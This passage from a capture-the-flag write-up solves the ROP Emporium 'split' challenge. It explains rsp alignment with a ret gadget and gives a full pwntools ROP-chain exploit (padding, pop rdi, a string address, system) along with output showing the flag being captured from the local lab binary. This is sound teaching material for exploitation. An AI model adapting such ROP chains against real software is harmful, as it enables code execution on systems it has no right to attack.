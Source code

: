 so we need to make our `rsp` 16-byte aligned. let's find extra `ret` to do that.  

```
0x000000000040053e : ret
```

cool!, now let's pad our ROP to make our `rsp` 16-byte aligned.

```python
from pwn import *

p = process("./split")
script = """
break *0x400560
"""

gdb.attach(p, gdbscript=script)

padding = b"X"*40
shell_str_addr = 0x601060
system_addr = 0x400560
pop_rdi = 0x4007c3
ret = 0x40053e

payload = padding + p64(pop_rdi) + p64(shell_str_addr) + p64(ret) + p64(system_addr)

p.sendline(payload)
print(p.recvall().decode("utf-8"))
```

this should work now let's try it!.  

```
┌──(kali㉿kali)-[~/ctf/rop/split]
└─$ python write-up.py
[+] Starting local process './split': pid 3742
[*] running in new terminal: ['/usr/bin/gdb', '-q', './split', '3742', '-x', '/tmp/pwnobnrixxs.gdb']                                   [+] Waiting for debugger: Done
[+] Receiving all data: Done (120B)
[*] Stopped process './split' (pid 3742)
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

let's go! we got the flag!!!
